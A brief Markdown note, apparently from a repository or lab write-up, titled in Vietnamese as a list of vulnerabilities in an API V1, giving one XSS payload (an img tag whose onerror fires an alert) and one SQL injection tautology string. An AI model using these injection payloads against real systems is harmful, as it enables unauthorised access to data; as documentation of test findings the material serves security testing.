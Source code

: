 # Các lỗ hổng trong API V1

#### XSS
Payload:
```
<img src="x" onerror="alert(&quot;XSS&quot;)">
```

#### SQLi
Payload:
```
' OR '1'='1' -- '
' OR '1'='1' -- '

```